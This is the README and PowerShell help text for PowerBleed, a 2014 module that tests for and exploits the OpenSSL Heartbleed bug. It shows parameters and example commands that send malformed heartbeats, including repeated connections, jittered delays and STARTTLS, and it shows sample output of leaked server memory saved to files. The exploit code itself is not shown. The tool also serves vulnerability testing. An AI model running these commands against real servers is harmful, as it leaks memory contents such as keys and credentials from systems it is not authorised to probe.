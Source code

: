 ﻿
## PowerBleed

Powerbleed is a powershell module that allows you to check for the OpenSSL heartbeat
vulnerability, exploit it and write data to a file if desired.  Powerbleed defaults
to checking web based SSL/TLS on port 443, however will also support STARTTLS
based functionality for other protocols such as SMTP, IMAP, POP, and FTP.
Only a single heartbeat, and TLS connection is attempted by default after
heartbeat support is ascertained in the initial check.   This can be modified with the TLSTries,
and Heartbeats parameters.  By default, a random delay is introduced between heartbeats
which can be disabled if desired also.

Author: Joff Thyer, April-May 2014
Concept suggestion by Tim Tomes.

## Sponsors

[![Black Hills Information Security](http://www.blackhillsinfosec.com/_images/BHIS-Logo.png)](http://www.blackhillsinfosec.com)


<#
.SYNOPSIS

Exploit the OpenSSL 1.0.1 - 1.0.1f TLS HeartBeat vulnerability.
Author: Joff Thyer, April 2014
Concept suggestion by Tim Tomes.

.DESCRIPTION

Sends a malformed TLS heartbeat request as many times as you want to and write
the returned data into a file.

.PARAMETER Computername

Either a domain name or IP address can be provided.

.PARAMETER Port

The default TCP port is 443 however any other port may be specified
here.

.PARAMETER WriteFile

If this parameter is added, a file named "$Computername-port$Port-hb.dat" will be written
containing all of the binary data retrieved for a specific computer host.

.PARAMETER TLSTries

Perform a full TLS connection to the server this many times. The default
for this parameter is 1. More data may be leaked with continued connect
attempts.

.PARAMETER Heartbeats

For a single TLS connection, send this many heartbeat requests
and gather the resulting data.  This defaults to 1 also.

.PARAMETER HBLen

The length of the malformed heartbeat packet.  Defaults to 65535 bytes.

.PARAMETER NoRandomDelay

Disable the random delay between heartbeat requests.  The random
delay will be calculated between 0 and 1000 milliseconds.

.PARAMETER Timeout

The TCP timeout for a connect request.  Also this is the
read bytes timeout during the response reading.  This will
timeout if the server does not support the TLS heartbeat function.

.PARAMETER STLSProto

Use STARTTLS and define which protocol to support.
Choices are: IMAP, POP, SMTP, FTP.  Defaults to NONE.

.LINK

http://packetstormsecurity.com/files/126070/Heartbleed-Proof-Of-Concept.html

.NOTES

Author: Joff Thyer, April 2014
Version: 20140501-1011
Acknowledgments to Tim Tomes.

.EXAMPLE

Usage example within CMD.EXE only.  Assumes that module is contained within
current working directory.

C:\>    powershell -command (Import-Module ./powerbleed.psm1); Test-Heartbleed -Computername 10.10.1.150 -Verbose


Powershell interactive usage examples:

PS C:\>     Import-Module ./powerbleed.psm1

PS C:\>     Test-Heartbleed -Computername 10.10.1.150 -Heartbeats 5 -HBLen 32767 -Verbose
VERBOSE: Testing 10.10.1.150
VERBOSE: Sending Heartbeat support test packet
VERBOSE: Connection attempt number: 1
VERBOSE: Sending 5 TLS heartbeat packets
VERBOSE: :  2896 bytes returned from server. (2896 total bytes)
VERBOSE: : 29882 bytes returned from server. (32778 total bytes)
VERBOSE: :  8688 bytes returned from server. (41466 total bytes)
VERBOSE: : 24113 bytes returned from server. (65579 total bytes)
... some output omitted ...

Can also use the powershell pipeline to write bytes out to a file like this:

PS C:\> Test-Heartbleed -Computername 10.10.1.150 | `
              Select-Object -ExpandProperty Bytes | `
              Set-Content -Encoding Byte -Path ./file.txt

PS C:\> Test-Heartbleed -Computername 10.10.1.150 | Select-Object -ExpandProperty Bytes | Set-Content -Encoding Byte -Path ./file.txt


Or as a one line command with no pipeline with the -WriteFile argument.

PS C:\blah> Test-Heartbleed -Computername 10.10.1.150 -WriteFile
PS C:\blah> ls

    Directory: C:\blah

Mode                LastWriteTime     Length Name
----                -------------     ------ ----
-a---          5/1/2014  10:08 AM       5793 10.10.1.150-port443-hb.dat
-a---          5/1/2014  10:08 AM      16179 powerbleed.psm1



Other examples:

PS C:\> Test-Heartbleed -Computername 10.10.1.150 -Heartbeats 3 -TLSTries 3 -NoRandomDelay -Verbose

PS C:\> Test-Heartbleed -Computername smtp.domain.tld -Port 25 -STLSProto SMTP -Verbose
VERBOSE: Testing smtp.domain.tld
VERBOSE: Sending Heartbeat support test packet
VERBOSE: smtp.domain.tld does not support TLS heartbeat.

Host                    Bytes                        Vulnerable String
----                    -----                        ---------- ------
smtp.domain.tld         {0}                          False

#>

